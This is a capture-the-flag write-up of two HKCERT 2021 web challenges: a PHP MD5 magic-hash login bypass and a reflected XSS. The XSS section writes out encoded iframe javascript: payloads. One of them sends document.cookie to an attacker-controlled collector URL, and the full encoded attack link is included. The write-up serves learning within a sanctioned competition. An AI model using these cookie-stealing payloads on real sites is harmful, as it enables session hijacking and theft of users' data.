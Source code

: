 I just finished 2 challenges TT
HKCERT CTF - 12 Nov 2021

1. Challenge Name: 因講了出來 (Web - 150 points)

Open the link 
![image](https://user-images.githubusercontent.com/72589672/141679511-7a6f8a52-2877-41d1-9112-5e847aabdfa4.png)

I clicked the hint to see any interesting things...
It will redirect you to the source.php, you can see the source codes.
So, there is something interestings, becasue it is used the magic hash for validation and we also have the username.

The code showed there are 2 conditions one is "hash('md5', $password) == 0 " which means the input password must be md5 magic hash. (What is magic hash: https://www.whitehatsec.com/blog/magic-hashes/)
The second condition is "substr($password,0,strlen('hkcert')) === 'hkcert'" which means the password must be start from hkcert.
![image](https://user-images.githubusercontent.com/72589672/141678942-b8868440-da03-4cc2-9cc9-6e450d73758d.png)

BE CAREFUL!! 
-> The length of password cannot longer than 24
![image](https://user-images.githubusercontent.com/72589672/141679291-beadfe5c-3690-4dda-9a66-0e6cd63c7f32.png)

-> The following code shows we cannot use the cracked password, try to avoid we crack the same password.
![image](https://user-images.githubusercontent.com/72589672/141679107-6d4558cd-ded4-447c-86c6-a19c62c2f383.png)

Then, we can try to bruteforce the password by using python script.
![image](https://user-images.githubusercontent.com/72589672/141679457-fe572bbb-5bf9-41de-8b16-a4a459844c20.png)

So, we can use username hkcert and the craked password hkcertsadxxxxxx to login the page and get the flag!

2. Challenge Name: 純孩兒 BABY XSS (Web - 100 points) XSS
Read the description:
![image](https://user-images.githubusercontent.com/72589672/141679818-b9210c24-868c-4bb8-b994-21ebcb5d6e3a.png)
So I went to the training platform and learnt from HKCERT Workshop - infrant XSS: https://training.hkcert21.pwnable.hk/

Open the link
![image](https://user-images.githubusercontent.com/72589672/141679516-f15351f3-f60c-4660-9963-068a31ef77f5.png)

To view this page source code, I found there are some opfusted javascript
![image](https://user-images.githubusercontent.com/72589672/141679766-41cf1146-509d-4306-a0a2-d1013d8e7cef.png)

Using the deobfuscate website (https://deobfuscate.io/) to find the javascript
![image](https://user-images.githubusercontent.com/72589672/141679982-95e8d359-7280-44bf-b25f-caff805dcfdb.png)

Learnt from the workshop, the following codes means we can rewrite this function 
![image](https://user-images.githubusercontent.com/72589672/141680220-a13a87be-49ba-43db-b99a-9719b3b8597d.png)

So, I can try to test the page can execute the javascript or not, but it doesn't work
![image](https://user-images.githubusercontent.com/72589672/141679585-368e5a5e-6636-4c85-a7da-fc5896fbc372.png)

I tried to used different methods to trigger the javascript. 
Luckily, I can trigger the javascript by using the UTF-8 encode with the iframe tag. (Learnt from: https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting)
Enter: <iframe src=javascript:%61%6c%65%72%74%28%31%29></iframe>
![image](https://user-images.githubusercontent.com/72589672/141679658-d95d90e7-4530-4817-a0e6-8d5c44eba3e0.png)
![image](https://user-images.githubusercontent.com/72589672/141679638-8bb2cc8b-e04f-4796-b45a-44dc688f1f6e.png)

Then, I can use a website to collect data to steal the data from the client.
The workshop suggested me to use https://requestbin.com/, so I registed it.

Therefore, I can use <iframe src=javascript:javascript:location.href='http://yourwebsiteurl/'></iframe>
Before inject the code into the textarea, we need to encode the url. I used this website https://www.browserling.com/tools/utf8-encode to encode.
![image](https://user-images.githubusercontent.com/72589672/141680425-8352c127-f9fb-4550-99d1-61abcf69733b.png)
Remember: Replace '\x' to '%'

Example: \x59\x6f\x75\x72\x20\x77\x65\x62\x73\x69\x74\x65\x20\x75\x72\x6c to %59%6f%75%72%20%77%65%62%73%69%74%65%20%75%72%6c

Then, we can insert the code into the textarea.
<iframe src=javascript:%59%6f%75%72%20%77%65%62%73%69%74%65%20%75%72%6c></iframe>
You can see the result on the frame.
![image](https://user-images.githubusercontent.com/72589672/141680598-846d8da1-5612-4497-959c-644a3a070c7f.png)

I also go to my website to confirm the event is triggered. It works!!!
![image](https://user-images.githubusercontent.com/72589672/141680697-b974dcf7-f661-4af8-9b72-c774a16efa81.png)

I can use the document.cookies get cookies NOW!!
The javascirpt will be like this: <iframe src=javascript:location.href='http://yourwebsiteurl/?'+document.cookie></iframe>
![image](https://user-images.githubusercontent.com/72589672/141680895-2ed0ca5a-333f-48a3-be89-b9734f81374b.png)

Encode again: <iframe src=javascript:%6c%6f%63%61%74%69%6f%6e%2e%68%72%65%66%3d%27%68%74%74%70%73%3a%2f%2f%79%6f%75%72%77%65%62%73%69%74%65%75%72%6c%3f%27%2b%64%6f%63%75%6d%65%6e%74%2e%63%6f%6f%6b%69%65></iframe>
Then, we can inject the code into textare to steal the client data!
![image](https://user-images.githubusercontent.com/72589672/141680937-e51ff854-29b7-402d-a504-e270c28488a4.png)

After we verified it also successful triggered the event on the website, we can copy the url on BABY XSS website.
![image](https://user-images.githubusercontent.com/72589672/141681026-4fe923c5-71ae-4b15-8927-de892147c329.png)

Go to the XSS Bot Page, select the bayXSS Challenge and enter the copied url into the URL textbox. Click Submit Query!
http://babyxss-m7neh9.hkcert21.pwnable.hk/#%3Ciframe%20src=javascript:%256c%256f%2563%2561%2574%2569%256f%256e%252e%2568%2572%2565%2566%253d%2527%2568%2574%2574%2570%2573%253a%252f%252f%2579%256f%2575%2572%2577%2565%2562%2573%2569%2574%2565%2575%2572%256c%253f%2527%252b%2564%256f%2563%2575%256d%2565%256e%2574%252e%2563%256f%256f%256b%2569%2565%3E%3C/iframe%3E
![image](https://user-images.githubusercontent.com/72589672/141681153-f5864f4a-39e2-4bda-96b7-1dc89571f9ef.png)

Now, you can go to your website to check the triggered event's query. The flag is there!!



